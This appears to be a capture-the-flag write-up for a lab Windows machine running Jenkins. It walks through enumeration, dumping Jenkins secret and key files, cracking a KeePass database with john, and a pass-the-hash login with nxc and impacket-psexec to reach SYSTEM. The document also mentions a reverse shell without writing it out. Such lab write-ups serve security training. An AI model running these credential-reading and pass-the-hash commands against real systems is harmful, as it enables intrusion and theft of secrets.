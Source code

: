 #Pwned! 
```IP
10.10.10.63
```
# Enumeration

## HTTP 80
We get an image error everytime we search for something in the application. The error displays the MSQLS version: Microsoft SQL Server 2005 9.00.4053.00
Fuzzing directories doesn't seem to reveal anything interesting.
It seems to be patched against SQLi too.
## HTTP 50000
Jetty 9.4.z-SNAPSHOT
Apparently we can't do a path traversal attack, fuzzing directories proves useless until we try with seclist `directory-list-2.3-medium.txt` which finds `askjeeves` directory.
Ì tried to exploit it using https://github.com/jpiechowka/jenkins-cve-2016-0792.git but we get the following message:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094323.png?raw=true)
If we navigate to askjeeves we have the jenkins console where we can execute code with the build functionality
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226094705.png?raw=true)
We can also see in the bottom right corner that it is jenkins version 2.87
More information
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226095921.png?raw=true)
Apparently we can decrypt a password with the following code https://github.com/gquere/pwn_jenkins/tree/master if we have the following files:
```
type C:\Users\Administrator\.jenkins\users\admin\config.xml
type C:\Users\Administrator\.jenkins\secrets\master.key
type C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret
```
The last file however will output odd characters. We will need to transform it into base64 in order to properly operate with it:
```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'C:\Users\Administrator\.jenkins\secrets\hudson.util.Secret' -Encoding byte));Write-Output $c"
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226100901.png?raw=true)
```xml
<?xml version='1.0' encoding='UTF-8'?>
<user>
  <fullName>admin</fullName>
  <properties>
    <jenkins.security.ApiTokenProperty>
      <apiToken>{AQAAABAAAAAwID3cR3pyZaEkaDPU25Z0S+nrU8+gDgB0JEWORJ5L1P2T+zXc/tSs2IVn1ugWLaui54D6yYki4vhXQtGhqUSeFw==}</apiToken>
    </jenkins.security.ApiTokenProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1509762882255</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

```key
40e19a08d55698273e82182aae560bb78f5c99205e1b603de13e4729dfeed0bfaa9ed79557107ca7294a8a18a9bd81d60ee5610943e488bf2150dc1b06935b8f2a4f5b9370e0cb1d28249758e2b96cf2b658f2c5290fc6a202d9a04621c79eb0d09faf3246e50998a0aaea42b76eb96186f4842e0f9c07bbbd77152afc59de16
```

```hudson.util.Secret
17YMaGax5EC5QaxvqhRSuurM7gVN//UqUuX1U8FJW2Np3qtsgvujgtBo/v1tXF/yGlXbB66bv86gYvl7eIxilj1CaWlQr07+TyNivEdQPf+UEmCbxeP2aqF4fs6HAiXZzDerWnsEafFDAJlD8pedi7AJy2pojaveZAQIYMhuthnnRpEZFEEaHze340TfNySncWCCPMGP1Xde7tgiitohjQeFjfRB3mJltOTMEwyBlNvojomte32a7t7luw1uPJpHgmbqe987pEL1haa/VRq1kUB8kBegvnCXSa8FmLBRcPKU1XNmROSAZhuiPaNeWESv67jzlJiiYl7bNaMY3I/iXJ8kTKa3iRK9obBN05xKCQI=
```
We get the following password:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226102958.png?raw=true)
```
b979d8dc2568628f73c75157a2fec5ee
```

Doesn't seem to work. If we execute a simple powershell reverse shell encoded in base64 we get a connection. Apparently it was a far easier path:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103455.png?raw=true)
We get user.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103628.png?raw=true)
Administrator does not seem to contain the flag root.txt.
We geta CEH.kdbx file though
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226103939.png?raw=true)
we can transfer it copying to our workspace in jenkins
```
copy \users\kohsuke\documents\CEH.kdbx C:\Users\Administrator\.jenkins\workspace\test
```
And now we can download it in our local machine and extract the hash:
```
keepass2john /home/kali/Downloads/CEH.kdbx > CEH.hash
```
And we will try to crack it with
```
john --wordlist=/usr/share/wordlists/rockyou.txt CEH.hash
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111230.png?raw=true)
Now we can access the database:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111849.png?raw=true)
There is a password that seems like an NTLM hash:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226111835.png?raw=true)
If we perform a pass the hash attack we will see that it works with administrator user:
```
nxc smb 10.10.10.63 -u administrator  -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112109.png?raw=true)
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```
We have now access as NT Authority System
And we can see in the administrator desktop a data stream file
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112551.png?raw=true)
Which we can read with
```
more < hm.txt:root.txt
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241226112748.png?raw=true)

# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement


